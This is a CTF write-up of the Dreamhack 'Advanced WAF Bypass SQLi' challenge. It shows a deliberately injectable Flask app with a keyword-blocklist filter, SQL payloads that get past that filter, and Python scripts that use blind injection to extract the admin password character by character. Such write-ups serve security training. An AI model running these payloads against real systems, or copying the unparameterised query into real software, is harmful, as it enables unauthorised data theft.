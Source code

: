 ```yaml
---
layout: post
title:  "[Dreamhack]Advanced WAF Bypass SQLI"
date:   2024-04-24 00:29:20 +0700
categories: ctfwriteup
---
```


### Challenge Name : Advanced WAF Bypass SQLi

Th challenge source code is given below

```
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/', 
            '\n', '\r', '\t', '\x0b', '\x0c', '-', '+']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

This challenge is advanced version of the previous challenge <code>`WAF bypass SQLI`</code>,The user input here is lower casted before checking into the check_WAF function.

At first i tried basic concatenation [OR Operator] and it worked with <code>`'||1=1#` `'||1=0#`</code>

<img>

Then i tried with <code>`'||length(upw)={length}#`</code> , i got success in calculating the length, like if the length is valid,the server will respond the uid but it seems if founded the upw of abcde which is a different user.

Then started struggling with the idea of how to supply the admin uid, meanwhile i understood the exploitation part will require blind injection.

The idea came in to use the [AND operator] && <code>`'||(uid='guest'&&length(upw)=5)#`</code>

It worked and the responded with the uid guest.

<img>

Now we can use concat function to supply admin value in uid <code>`concat('adm','in)`</code>, We also know that the flag value is stored in admin upw and starts with 'D' since the flag format is 'DH{.*}'.

I supplied the payload <code>`'||(uid=concat('adm','in')&&substr(upw,1,1)='D')#` and yesss! we recieved the response uid as admin which means we succceded!

Now our idea is to  find the length of upw and below is the script i created that will help us to find the length!



```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"


length = 0

while True:
	payload = f"'||(uid=concat('adm','in')&&length(upw)={length})#"
	encoded_payload = urllib.parse.quote(payload)

	print(f"Trying length {length}")
	data = requests.get(f"{host}/?uid={encoded_payload}")
	if "admin" in data.text:
		break
	else:
		length=length+1

print(f"Admin upw length is {length}")
```

The length of upw is 44 and now we can bruteforce each character and find the flag.

```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"

charSet = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'

length=44
pos=0
flag=''
for i in range(0,45):
	pos= pos+1
	for j in charSet:
		payload = f"'||(uid=concat('adm','in')&&substr(upw,{i},1)='{j}')#"
		encoded_payload = urllib.parse.quote(payload)
		data = requests.get(f"{host}/?uid={encoded_payload}")
		if "admin" in data.text:
			print(f"found character {j} in position {i}")
			flag = flag+j
			break

print(f"Flag : {flag}")
```
